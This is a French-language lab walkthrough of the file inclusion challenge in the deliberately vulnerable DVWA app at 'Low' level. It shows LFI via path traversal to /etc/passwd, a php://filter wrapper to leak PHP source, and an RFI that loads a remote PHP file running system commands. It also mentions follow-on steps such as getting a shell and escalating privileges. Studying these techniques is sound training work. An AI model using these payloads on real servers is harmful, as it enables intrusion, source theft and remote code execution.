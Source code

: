 # Niveau "Low"

Ce challenge nous propose une première page permettant d'accéder à trois fichiers nommés respectivement "file1.php", "file2.php" et "file3.php" :

![](../../../../.gitbook/assets/d513ac6fd858482c45cf09f35f0593d7.png)

Dont voici le contenu du fichier "file1.php" :

![](../../../../.gitbook/assets/8be03bac1ed4c2ab6587df1fdef97d28.png)

Du fichier "file2.php" :

![](../../../../.gitbook/assets/974fe5f5ca7d43775430e06a87646d24.png)

Ainsi que de "file3.php" :

![](../../../../.gitbook/assets/a701d84bd50ba8b731ee7c735e68f7ce.png)

**Local File Inclusion (LFI)**

Ce qui est important de **** repérer **** ici, c'est que le nom du fichier à inclure se retrouve en tant que valeur du paramètre `page` présent dans l'URL :

![](../../../../.gitbook/assets/3a508a736095328be32d907b97cb7749.png)

_Inclusion d'un fichier local du même niveau d'arborescence_

Une première attaque va consister à inclure des pages localement présentes, soit une LFI. Avec, dans un premier temps, un fichier au même niveau de l’arborescence :

![](../../../../.gitbook/assets/d6b64cb00929508c36c0d672cd144f56.png)

_Inclusion d'un fichier local en utilisant une attaque de type path traversal_

Ou alors, de sortir du niveau courant de l'arborescence et d'utiliser dans le même temps une autre attaque nommée path traversal (ou directory traversal). Cette attaque consiste à injecter des occurrences de type `../` (ou équivalent) afin de remonter l’arborescence du système vulnérable :

![](../../../../.gitbook/assets/90195f7432883cf0d78823d0f5c7aeeb.png)

{% hint style="info" %}
Il est possible sous DVWA en niveau "Low" d'utiliser directement la syntaxe `?page=/etc/passwd` mais cela peut ne pas fonctionner suivant l'application ou le système cible
{% endhint %}

__

_Utilisation des wrappers PHP_

Lorsqu'une vulnérabilité LFI est détectée, il peut être utile, si cela est possible, d'utiliser les wrappers PHP afin d'avoir plus d'impact. Par exemple, le wrapper `php://filter` peut être utilisé pour récupérer le code source des pages `.php` . Dans l'exemple suivant, on récupère le code source (en haut de la page, encodé en base64) de la page `include.php` :

```http
?page=php://filter/convert.base64-encode/resource=include.php
```

![](../../../../.gitbook/assets/df136bf6f7dfc8bc478d6d12001362e5.png)

Une fois décodée (il s'agit juste d'un extrait) :

![](../../../../.gitbook/assets/ecc0129a677c8961d5f67ff64613be82.png)

D'autres wrappers sont intéressants à exploiter et peuvent mener à une RCE.



**Remote File Inclusion (RFI)**

Une RFI survient quand il est possible d'injecter/d'inclure un fichier distant. Ici un exemple simple est l'inclusion de la page `google.fr` :

```http
?page=http://www.google.fr
```

![](../../../../.gitbook/assets/d275ac6038a70e54f0a0e18ec0b2daa8.png)

Cette attaque peut permettre d'inclure un script malicieux distant (hébergée sur une machine contrôlée par l'attaquant). L'exemple ici ne fera que retourner le nom de la machine (qui est, dans notre cas, l'identifiant de l'instance docker) :

{% code title="malicious.php" %}
```php
<?php
  system('hostname');
?>
```
{% endcode %}

![](../../../../.gitbook/assets/8e56ab467f02f4a731a6aa507973589e.png)

Cela mène donc à une prise de contrôle du serveur.

{% hint style="info" %}
Cela ne s'arrête pas là mais les possibilités sont vastes : récupération d'un shell plus complet, maintien de l'accès, tentative d'élévation de privilèges, pivotage, ...
{% endhint %}
